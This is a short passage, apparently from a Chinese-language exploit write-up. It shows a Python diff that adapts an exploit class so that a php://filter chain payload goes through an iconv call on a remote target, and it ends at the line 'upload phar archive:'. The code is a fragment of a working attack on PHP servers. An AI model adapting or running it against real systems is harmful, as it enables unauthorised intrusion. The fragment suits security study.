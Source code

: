 ```patch
-        resource = b64(resource)
-        resource = f"data:text/plain;base64,{resource.decode()}"
 
         filters = [
             # Create buckets
@@ -474,15 +485,15 @@
         filters = "|".join(filters)
         path = f"php://filter/read={filters}/resource={resource}"
 
-        return path
+        return f"/read={filters}", resource
 
     @inform("Triggering...")
     def exploit(self) -> None:
-        path = self.build_exploit_path()
+        filters, content = self.build_exploit_path()
         start = time.time()
 
         try:
-            self.remote.send(path)
+            self.remote.iconv(filters, content)
         except (ConnectionError, ChunkedEncodingError):
             pass
         
```

上传 phar 档案包:
